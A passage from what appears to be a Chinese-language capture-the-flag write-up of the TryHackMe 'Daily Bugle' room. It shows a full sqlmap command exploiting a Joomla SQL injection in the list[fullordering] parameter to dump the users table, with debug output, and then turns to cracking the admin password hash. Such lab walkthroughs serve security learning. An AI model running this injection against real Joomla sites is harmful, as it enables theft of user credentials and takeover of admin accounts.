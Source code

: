 我将从使用 *sqlmap* ( [Stampar 等人的](https://github.com/sqlmapproject/sqlmap))执行漏洞利用开始。这个房间的作者要求他们的用户“使用 python 脚本”，我认为这意味着开发他们自己的概念证明。因此，我将收集调试信息，并在将来返回到这个漏洞开发问题。然后我指示`sqlmap`转储`__users`数据库:

```
**┌──(dna@deniers)-[~/dailybugle]
└─$ sqlmap -u "http://dailybugle.thm/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump -v3**

[... snip ...]

[12:12:02] [DEBUG] cleaning up configuration parameters
[12:12:02] [DEBUG] setting the HTTP timeout
[12:12:02] [DEBUG] setting the HTTP User-Agent header
[12:12:02] [DEBUG] loading random HTTP User-Agent header(s) from file '/usr/share/sqlmap/data/txt/user-agents.txt'
[12:12:02] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows; U; Windows NT 6.1) AppleWebKit/526.3 (KHTML, like Gecko) Chrome/14.0.564.21 Safari/526.3' from file '/usr/share/sqlmap/data/txt/user-agents.txt'                           
[12:12:02] [DEBUG] creating HTTP requests opener object
[12:12:03] [DEBUG] setting the HTTP Referer header to the target URL
[12:12:03] [DEBUG] setting the HTTP Host header to the target URL
[12:12:03] [DEBUG] resolving hostname 'dailybugle.thm'
[12:12:03] [INFO] testing connection to the target URL
[12:12:03] [DEBUG] declared web page charset 'utf-8'
[12:12:03] [DEBUG] got HTTP error code: 500 ('Internal Server Error')
[12:12:03] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('eaa83fe8b963ab08ce9ab7d4a798de05=sv4pts6c7sg...pen4oo6pt1'). Do you want to use those [Y/n]

[... snip ...]
```

`--risk`和`--level`参数已被提升，因此该过程可能需要更长时间来评估 SQL 注入向量。我还使用了`--v3`标志将有效载荷请求打印到控制台上，以便进一步研究。在这个过程的一段时间后，`sqlmap`从`__user`表中返回以下条目—如表 1 所示:

![](img/a02857bb3e8c926fad1e40fe090ce16d.png)

表 1

记住用户凭证，我就更接近能够登录到 *Joomla 了！*超级管理员区。但我首先需要知道密码。

## 初始访问:密码破解

据我所知，至少有两种方法可以绕过 Joomla ！管理员登录表单；首先是*重置*它。`__user`表中有一列用于在请求密码重置时保存随机字符串。

不幸的是，我不认为这个漏洞适用于这个版本的 Joomla！，所以我将进行下一步:破解散列密码。我首先使用一个散列标识符工具([Hashes.com n . d .](https://hashes.com/en/tools/hash_identifier))来计算出这个版本的 *Joomla 使用的是哪种散列！*用途。图 3 描述了网站对我正在处理的散列类型的猜测:
